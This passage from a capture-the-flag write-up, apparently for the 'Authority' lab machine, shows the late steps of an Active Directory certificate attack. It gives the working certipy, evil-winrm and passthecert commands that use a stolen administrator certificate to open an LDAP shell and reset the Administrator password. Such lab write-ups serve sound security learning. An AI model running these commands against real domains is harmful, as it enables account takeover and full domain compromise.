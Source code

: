 Step 3)

The resulting .pfx file we get from the cert enrollment is not often used for many of the attacker tools that will allow us to do passthecert style attacks. 

So instead we can split the .pfx file into .cer and .key files to be used with these programs:

```
certipy cert -pfx administrator.pfx -nocert -out keyfile.key
certipy cert -pfx administrator.pfx -nokey -out certfile.crt
```

Step 4) 

Check to see if the cert will allow us to authenticate as Administrator:

<img src="assets/images/Authority/administrator1.png" style="zoom: 110%;"/>

We can!

*Very nice*

Step 5) 

Trying to get a shell as Administrator with the .crt and .key files and winrm doesn't seem to want to work:

```
evil-winrm -i 10.10.11.222 -c administrator.crt -k administrator.key -S
```

<img src="assets/images/Authority/evilwinrm1.png" style="zoom: 110%;"/>

Instead, we might be able to use passthecert to do other things as Administrator. 

passthecert can try to add computers to the domain, change user accounts, add user accounts, or give us an "ldap-shell" which is basically a way for us to do essentially the same kinds of things you could do with the "Active Directory Users and Computers" administrative module from a windows machine. 

*Including* changing passwords to accounts. Including our own (Administrator !)

```
passthecert -dc-ip 10.10.11.222 -crt administrator.crt -key administrator.key -domain authority.htb -action ldap-shell

change_password Administrator "Password100"
```


<img src="assets/images/Authority/changepassword.png" style="zoom: 110%;"/>

Success!

Next, we can try evil-winrm again but with Administrators username and new password instead of the certificate files:

<img src="assets/images/Authority/win.png" style="zoom: 110%;"/>

Bingo!! That's all she wrote. We can read the highly sensitive root.txt file on Administrators desktop, and make any changes to the computer or domain we want. 

